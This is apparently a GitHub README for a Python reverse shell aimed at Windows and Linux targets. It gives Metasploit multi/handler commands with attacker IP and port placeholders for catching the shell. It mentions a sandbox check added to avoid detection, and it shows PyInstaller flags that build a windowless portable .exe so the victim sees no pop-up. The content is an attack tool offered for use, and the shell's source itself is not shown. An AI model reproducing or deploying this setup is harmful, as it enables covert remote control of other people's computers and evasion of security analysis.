 
# Python Reverse Shell for Windows / Linux
Reverse Shell written in Python3 - Modified version of trackmastersteve/shell

You can take advantage of post exploitation modules in Metasploit by using:

    msf> use exploit/multi/handler 
    msf> set PAYLOAD [linux/shell_reverse_tcp | windows/shell_reverse_tcp]
    msf> set LHOST <Attacker IP>      
    msf> set LPORT <Attacker Port>    
    msf> set ExitOnSession false
    msf> run -j

Modified for a less fragile shell and a check for sandbox

To use on Windows, create an executable using pyinstaller

    python -m pip install pyinstaller
    pyinstaller -wF ./reverse_shell.py

Useful PyInstaller Options:
> -w removes pop up windows
>
> -F outputs a portable .exe file in the ./dist/ folder
